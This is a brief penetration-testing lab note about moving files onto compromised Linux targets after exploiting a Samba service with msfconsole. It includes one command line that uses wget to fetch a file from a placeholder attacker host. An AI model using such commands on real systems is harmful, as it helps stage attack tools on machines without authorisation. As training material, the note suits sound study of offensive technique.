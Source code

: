 # Transferring Files To Linux Targets

## Practice Demo

Enumerate system. In this target we have a Samba.

We utilize msfconsole to exploit this service.

We utilize "<mark style="color:red;">tmux</mark>" to have different tabs on the terminal.

### Downloading file in Linux

We can use the <mark style="color:red;">wget</mark> utility.

* <mark style="color:yellow;">wget http://attackerIP/file</mark>



